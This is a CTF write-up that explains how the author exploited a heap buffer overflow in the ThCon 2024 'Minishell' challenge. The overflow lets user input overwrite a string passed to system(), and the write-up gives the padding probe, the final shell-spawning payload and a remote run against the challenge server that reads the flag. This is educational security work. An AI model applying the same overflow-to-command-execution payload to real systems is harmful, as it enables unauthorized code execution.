 ```yaml
---
title: "Minishell (pwn) Write-Up CTF ThCon 2024"
summary: "Good introduction to basic heap buffer overflow through a custom vulnerable minimalistic shell in C"
date: 2024-04-07T12:32:53+0200
lastUpdate: 2024-04-07T12:32:53+0200
tags: ["pwn", "introduction", "write-up", "Supwn"]
author: ctmbl
draft: false
---
```


> **IMPORTANT**: You can also find this WU (and others), with **the source code** [on my GitHub](https://github.com/ctmbl/ctf-write-ups/tree/main/THCon-2024)

## Basics

First of all we don't have binaries associated with the challenge so I add to compile them:
```
gcc log.c -o log
gcc minishell.c -lcrypto -o minishell
```

Once this is done we can start reading the source code!

> **Note**:  
> Contrary to what I'm used to say and do, here there is no need to inspect the binary with `file`, `checksec`, `strings`, `ldd`, `ltrace` and `strace` because we compiled it ourself!  
> We can not ensure that it has been compiled the same way in remote, still, it can be useful to experiment a bit.

## Source code inspection

> Please find the source code [on my GitHub](https://github.com/ctmbl/ctf-write-ups/blob/main/THCon-2024/pwn/Minishell)

So let's read the code!
[`log.c`](https://github.com/ctmbl/ctf-write-ups/blob/main/THCon-2024/pwn/Minishell/log.c) is really simple, just a `main` function, it's a logging tool, it will write its arguments passed in command line to a log file, that's all.

[`minishell.c`](https://github.com/ctmbl/ctf-write-ups/blob/main/THCon-2024/pwn/Minishell/minishell.c) is really something else: 269 lines of code.  
When reading `C` code I always start looking globally at the function names and then I deep into the `main` function first.
Here it helped a lot, in `main` we quickly note that there is a bunch of variables initialization, some memory allocation and then a `while(1)`!
This is the infinite loop allowing the shell to always wait for user instructions.

We understand that the user is prompted for a string, which is then verified (some characters are forbidden in `commandAllowed` maybe there is something here) and parsed with `strtok`.
Then a bunch of `if else` identify which function to execute given the user command. At that point I could have started looking into each and every function to look for vulnerabilities, but I didn't.
I wanted to first finish the reading of `main` and I chose really well.

So we continue reading `main` to the last `else` (in case the command doesn't match any predefined strings), and there we have some really interesting stuff!
```C
             }else {
               char  *log = malloc(256 * sizeof(char));
                strcpy(log, "./log Error with command:");


                strcpy(arg, cmd);
                strcat(log, arg);
                system(log);

                printf("Unknow command, this event has been reported\n");
            }
```
Some `strcpy`, a `strcat` and above all a `system` call!

Of course it instantly caught my eye: if we were able to control the `log` variable, we could inject some commands here.
Unfortunately a predefined string is written in `log` and even if we control `cmd` it is just appended to `./log Error with command:` (remember `./log` is the second binary compiled at the beginning) by `strcat` and because special characters like `;` or `&&` are forbidden we cannot inject a 2nd command to `log` 😢

> **Note**:  
> However I noticed first that at the beginning of the `while` loop `buffer` is copied into `cmd` **before** verifying it with `commandAllowed`.  
> So I tested an exploit where I injected some forbidden command `aa; /bin/sh` which won't be executed **but will be written in `cmd` anyway**.  
> And then I inject a second one `a` which is allowed but unrecognized: the idea was that it didn't totally overwrite `cmd` which then would be something like `a\n; /bin/sh` and be appended to `log` then executed.  
> Unfortunately, `strcpy` (or other reason) adds a `\x00` between the "new" injection `a` and the "remaining" one in `cmd`, so it ends the string and even if the payload is there in the stack it isn't copied in `log` and wouldn't have been executed by `system` anyway.  
> So close!

So the real vulnerability is still here lying under our eyes: simply `arg` is not the same size as `cmd`, then when copying a long `cmd` into `arg` it overflows.
```C
    char* buffer = malloc(256 * sizeof(char));
    char* cmd = malloc(256 * sizeof(char));
    char  *arg = malloc(32 * sizeof(char));
```
Because `arg` is in the heap the question is then: what do we overflow?
And the answer is "if it's the first prompt, probably `log` which is alloc'd after `arg`", and finally we control `log`!!!

## Exploitation

Now `arg` is 32 bytes long, and because we're in the heap we will first overwrite the chunk header before overwriting `log`'s content.
To determine exactly the padding needed for our payload, either we know the heap chunk header size, or we use `gdb` (which is often really useful) but even simpler: a smart payload such as: `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG` (generated with a `for` loop in python to avoid silly mistakes...) will easily do the job.  
We inject it and see:
```
$ ./minishell
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG
sh: line 1: GGGGGGGG: command not found
sh: line 2: AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG: command not found
sh: line 3: AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDE: command not found
Unknow command, this event has been reported
spaceshell>
```
Victory! `GGGGGGGG` is executed as a command (I confirmed it with `ltrace ./minishell` and saw the execution of `system` with our payload and the result).
We then infer that an heap chunk header was 16 bytes long because our payload padding is `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF` which is 48 bytes, minus the 32 of `arg` we get 16 bytes for the header.

The final payload is of course: `AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF/bin/sh` and like that we get our shell 😉

Locally:
```
$ ./minishell
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFF/bin/sh
sh-5.2$ whoami
ctmbl
```
Remotely (I could have used `/bin/sh` too of course):
```
$ nc 20.19.241.70 3001
spaceshell> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFcat /home/ctf/flag.txt
THCON{G00d_0ld_0v3rfl0w}Unknow command, this event has been reported
```
🎉🎉🎉🎉

A good old overflow for sure 🙂, but a good reminder and a nice introduction to heap overflow overall 😉

## Conclusion

**To sum up**, here are the main step of the reasoning while tackling this challenge (and maybe how to tackle other `pwn` challenges):
1. First: **what have I got? what do I want to achieve?**  
 source code, **no binaries**, a remote access to the executing binary -> we want a **shell on the remote machine**
2. Here we got source code but no binary, we **skip the inspect part** and just **compile the source code** as we can.  
 We'll have to **assume the possible protection** of the remote binary.
   > Note that these two first parts are often forgotten but they are basically driving the rest of the exploit...
3. Dive into the source code, take a **global look** at the code but **quickly focus on main**.  
 We do not try to understand everything or every line, just **identify the structure of the code** and potentialy flawed lines: arrays, `malloc` and `free`, `printf`, bounds of `for` loops, Time of Check Time of Use (TOCTOU)...
4. We do not take a look at other functions while we have not finish reading main
5. Get a **first idea, try it**, understand why it works, or why it doesn't
6. Find a possible exploitable bug (here a buffer overflow), confirm it by several means (direct execution and with `ltrace` in my case) and rigorously define the needed payload (in my case the size of the padding)
7. Exploit, flag, celebrate :tada:

## Resources

> If any doubts you can always contact me on Discord `ctmbl` or issue on my [GitHub](https://github.com/ctmbl/ctf-write-ups/issues) if you need more information or resources 😉

Links:
- what is a buffer overflow: https://en.wikipedia.org/wiki/Buffer_overflow#Example
- more about heap structure and exploitation: https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/malloc_chunk
- `strcpy`: https://man7.org/linux/man-pages/man3/strcpy.3.html
- `strcat`: https://linux.die.net/man/3/strcat
- `strtok`: https://man7.org/linux/man-pages/man3/strtok.3.html
- `system`: https://man7.org/linux/man-pages/man3/system.3.html
